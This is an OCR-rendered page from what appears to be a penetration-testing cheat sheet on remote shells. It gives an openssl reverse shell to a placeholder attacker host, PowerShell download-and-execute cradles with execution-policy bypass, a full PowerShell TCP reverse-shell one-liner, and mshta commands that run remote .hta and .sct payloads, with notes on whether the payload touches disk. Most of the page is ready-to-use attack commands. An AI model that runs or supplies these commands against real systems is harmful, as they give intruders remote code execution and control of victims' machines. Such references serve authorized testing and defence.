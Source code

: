```
```bash
#Linux
openssl s_client -quiet -connect <ATTACKER_IP>:<PORT1>|/bin/bash|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>

#Windows
openssl.exe s_client -quiet -connect <ATTACKER_IP>:<PORT1>|cmd.exe|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>
```
```
## Powershell

```bash
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.2.0.5/shell.ps1')|iex"
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"
Start-Process -NoNewWindow powershell "IEX(New-Object Net.WebClient).downloadString('http://10.222.0.26:8000/ipst.ps1')"
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.13:8000/PowerUp.ps1') | powershell -noprofile
```
```
Process performing network call: **powershell.exe**\
Payload written on disk: **NO** (_at least nowhere I could find using procmon !_)

```bash
powershell -exec bypass -f \\webdavserver\folder\payload.ps1
```
```
Process performing network call: **svchost.exe**\
Payload written on disk: **WebDAV client local cache**

**One liner:**

```bash
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
```
**Get more info about different Powershell Shells at the end of this document**

## Mshta

- [[https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/|From here]]

```bash
mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
```
```
```bash
mshta http://webserver/payload.hta
```
```
```bash
mshta \\webdavserver\folder\payload.hta
```
```
#### **Example of hta-psh reverse shell (use hta to download and execute PS backdoor)**

```xml
 
```
```
**You can download & execute very easily a Koadic zombie using the stager hta**
```